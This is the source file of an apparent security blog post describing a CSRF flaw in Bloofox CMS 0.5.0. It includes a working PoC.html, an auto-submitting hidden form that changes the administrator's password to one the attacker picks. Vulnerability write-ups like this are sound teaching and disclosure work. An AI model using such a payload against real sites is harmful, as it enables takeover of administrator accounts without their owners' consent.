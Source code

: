 ```yaml
---
layout: post
title:	"Bloofox CMS 0.5.0 CSRF Change Administrator Password"
date:	2018-12-29 03:00:00
categories:
    - notes
tags:
    - bug_hunting
    - vuln_writeup
---
```

<head>
	<title> Bloofox CMS 0.5.0 CSRF Change Administrator Password</title>
</head>
![Screenshot]({{ site.baseurl }}/images/posts/2017/bloofox-cms/logo.jpg)


# i. Introduction

Bloofox is a Content Management System (CMS), which allows users to manage websites. Bloofox is very simple, yet powerful.

As with any CMS, Bloofox is riddled with bugs. As soon as functions such as managing users, website content; it opens up a huge attack surface on the application.

On May 21, 2018, Bloofox CMS has reached its end of life, which means any existing bugs will not be fixed, and all support will be stopped.

# ii. Summary

To read an in-depth summary of how CSRF works, and how it can be protected against, check out the summary section of this post: https://m-q-t.github.io/notes/zeuscart-csrf/

# iii. Exploiting Bloofox

It is a great practice for an application to issue CSRF tokens whenever a form is submitted.

However, in this case Bloofox can avoid the CSRF by not having to issue tokens.

How? Bloofox does not make the Administrator confirm their old password when setting a new password for themselves. Which makes a bit of sense, due to the fact if the user is an Administrator they should be able to change passwords.

Though for a high privileged account such as an Administrator, it is generally a great idea to have the administrator confirm their old password when changing it. If the administrator truly forgot their password and cannot change it, they can always go through the backend (such as updating their password in the database).

Due to Bloofox not having the Administrator confirm their password, and not issuing any tokens to make sure the form is valid, an attacker can send a link to the Administrator. Once the link is clicked, the request will be sent to the application to change the password to the attacker's choice.

PoC.html:
```text
<html>
<body>
<form method="post" action="http://localhost/admin/index.php?mode=user&action=edit" enctype="multipart/form-data">
    <input type="hidden" name="username" value="admin">
    <input type="hidden" name="password" value="CHANGEPASSWORD">
    <input type="hidden" name="pwdconfirm" value="CHANGEPASSWORD">
    <input type="hidden" name="3" value="Admin">
    <input type="hidden" name="blocked" value="0">
    <input type="hidden" name="deleted" value="0">
    <input type="hidden" name="status" value="1">
    <input type="hidden" name="login_page" value="0">
    <input type="hidden" name="userid" value="1">
    <input type="hidden" name="send" value="Save">
</form>
<script>document.forms[0].submit();</script>
</body>
</html>
```

When the Administrator clicks the link, they will see a blank page but a request will be sent to the server, and change the Administrator's password to whatever they set in the form.


# iv. Conclusion

In conclusion, like I have mentioned earlier, older applications are a great way to practice some bug hunting methodology and build foundation. It is true that newer applications implement more secure practices, though the foundation in the end is pretty much the same.


Thank you for reading.

~~~
Sources:
https://m-q-t.github.io/notes/zeuscart-csrf/
~~~
